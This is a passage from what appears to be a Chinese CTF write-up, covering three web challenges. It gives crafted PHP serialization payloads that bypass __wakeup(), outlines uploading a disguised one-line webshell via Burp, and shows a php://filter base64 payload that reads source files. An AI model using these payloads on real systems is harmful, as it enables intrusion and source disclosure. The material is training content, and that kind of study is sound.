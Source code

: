 
以code=传参数

在使用 unserialize（）反序列化时 会先调用 \__wakeup()函数，

而本题的关键就是如何 绕开 \__wakeup()函数，就是在 反序列化的时候不调用它

**当 序列化的字符串中的属性值个数 大于 属性个数 就会导致反序列化异常 从而跳过
\__wakeup()**

构造序列化的字符串：

\<?php

class xctf{

public \$flag = "111";

}

\$s = new xctf();

echo(serialize(\$s));

?\>

在线运行

得到：O:4:"xctf":1:{s:4:"flag";s:3:"111";}

构造pyload：O:4:"xctf":2:{s:4:"flag";s:3:"111";}
或O:1:"xctf":1:{s:4:"flag";s:3:"111";} 或 O:4:"xctf":1:{s:1:"flag";s:3:"111";}
都可以

在url中输入/?code=

O:4:"xctf":2:{s:4:"flag";s:3:"111";}

13.upload1(文件上传)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134720215.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



先查看了一下源代码，对文件上传的类型进行了限制上传
jpg，png类型，记事本写一句话木马，后缀为jpg，绕过前端限制，上传时用bp抓包，修改后缀为php，菜刀连接

14.bugku
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134822267.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134827684.png)




php://filter/read/convert.base64-encode/resource=index.php
这句话的意思是我们用base64编码的方式来读文件index.php；这时页面会显示出源文件index.php经过base64编码后的内容，然后经过base64解码就可以看到flag

php://filter
是一种设计用来允许过滤器程序在打开时成为流的封装协议。这对于单独具有完整功能的文件函数例如
readfile()，file() 和 file_get_contents()
很有用，否则就没有机会在读取内容之前将过滤器应用于流之上。 该协议语法为
php://filter:/\<action\>=\<name\> 比如 php://filter:/resource=ht
